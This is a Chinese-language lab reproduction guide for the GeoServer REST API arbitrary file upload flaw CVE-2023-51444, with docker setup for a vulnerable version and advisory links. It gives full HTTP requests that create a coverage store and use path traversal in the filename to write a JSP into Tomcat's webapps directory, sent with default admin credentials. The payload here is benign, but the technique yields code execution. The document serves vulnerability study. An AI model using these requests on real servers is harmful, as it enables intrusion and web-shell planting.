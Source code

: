 # GeoServer 任意文件上传漏洞 CVE-2023-51444

​	GeoServer是一个开源服务器，用于共享、处理和编辑地理空间数据。它支持多种地图和数据标准，使用户能够通过网络访问和操作地理信息系统（GIS）数据。GeoServer 是开放地理空间联盟 (OGC) Web 要素服务 (WFS) 和 Web 覆盖服务 (WCS) 标准的参考实现，以及高性能认证的兼容 Web 地图服务 (WMS)、兼容的 Web 目录服务 ( CSW）并实施网络处理服务（WPS）。 GeoServer 构成了地理空间网络的核心组件。

​	在2.23.4版本之前和2.24.1版本之前存在一个任意文件上传漏洞，允许经过身份验证的管理员通过REST Coverage Store API修改覆盖存储器权限上传任意文件内容到任意文件位置。漏洞利用需要管理员权限。



GeoServer官网 https://geoserver.org/

项目github地址https://github.com/geoserver/geoserver



参考链接

- https://github.com/geoserver/geoserver/security/advisories/GHSA-9v5q-2gwq-q9hq
- https://github.com/geoserver/geoserver/pull/7222/files
- https://blog.csdn.net/shelter1234567/article/details/138637541

**受影响的版本**

<2.23.4，<2.24.1



## 漏洞环境

执行如下命令启动一个geoserver-v2.24.0：

```shell
sudo docker pull docker.osgeo.org/geoserver:2.24.0

sudo docker run -it -p8080:8080 docker.osgeo.org/geoserver:2.24.0
```



## 漏洞复现

1，登录查看数据目录

![image-20240509114322749](./1.png)



2，创建coverageStore 为test, 及定义url路径为绝对路径（第一步收集到的数据目录信息），

```
POST /geoserver/rest/workspaces/sf/coveragestores?configure=all HTTP/1.1
Host: 192.168.160.128:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Content-Length: 352
Authorization: Basic YWRtaW46Z2Vvc2VydmVy
Content-Type: text/xml
Cookie: JSESSIONID=BA9BAFE1A0F1BF6857DF2E9FF57824B7
Accept-Encoding: gzip, deflate, br

<coverageStore>
  <name>test</name>
  <type>ImageMosaic</type>
  <enabled>true</enabled>
  <workspace>
    <name>sf</name>
  </workspace>
  <__default>false</__default>
  <dateCreated>2024-05-9 11:00:00.000 UTC</dateCreated>
  <disableOnConnFailure>false</disableOnConnFailure>
  <url>file:/opt/geoserver_data/data/sf/</url>
</coverageStore>
```

返回状态201表示成功

![image-20240509114812864](./2.png)

3，上传文件

注意接口定义(这里上源码提示)

```java
@RequestMapping(
        path =
                RestBaseController.ROOT_PATH
                        + "/workspaces/{workspaceName}/coveragestores/{storeName}/{method}.{format}")
```

workspaceName我们选择sf此为系统自带，storeName就是我们第二步创建的coverageStore ，apache-tomcat-9.0.82为此次docker的目录tomcat的父路径，如果你想访问这个jsp的话此为必选项，

```jsp
POST /geoserver/rest/workspaces/sf/coveragestores/test/file.imagemosaic?filename=../../../apache-tomcat-9.0.82/webapps/test/print.jsp HTTP/1.1
Host: 192.168.160.128:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Connection: close
Content-Length: 33
Authorization: Basic YWRtaW46Z2Vvc2VydmVy
Content-Type: application/octet-stream
Cookie: JSESSIONID=BA9BAFE1A0F1BF6857DF2E9FF57824B7
Accept-Encoding: gzip, deflate, br

<% out.println("hello world"); %>
```

返回202代表上传成功

![image-20240509115328282](./3.png)

访问验证

![image-20240509115419261](./4.png)